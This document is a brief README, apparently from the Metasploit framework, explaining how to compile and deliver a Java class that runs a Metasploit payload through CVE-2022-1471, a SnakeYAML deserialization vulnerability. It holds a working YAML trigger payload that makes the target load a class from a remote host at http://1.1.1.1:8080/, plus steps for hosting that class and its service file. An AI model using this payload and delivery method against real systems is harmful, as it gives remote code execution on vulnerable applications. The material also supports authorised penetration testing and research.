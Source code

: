 # Overview
The Java file contained within will load and execute a Metasploit payload. It's intended to be loaded while exploit
CVE-2022-1471 which is a YAML deserialization vulnerability within the snakeyaml project.

## Compiling
Compile the Java source file using `javac -cp path/to/metasploit-payloads/data/java MyScriptEngineFactory.java`.

## Usage
Trigger the deserialization using the following YAML:
```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://1.1.1.1:8080/"]]]]
```

Host the compiled class on an HTTP server along with the file `/META-INF/services/javax.script.ScriptEngineFactory`. The
contents of this file should simply be the class name to load (`MyScriptEngineFactory`). See Metasploit's
`Msf::Exploit::Remote::Java::HTTP::ClassLoader` mixin for more information and the remaining components necessary to
deliver a Metasploit payload.
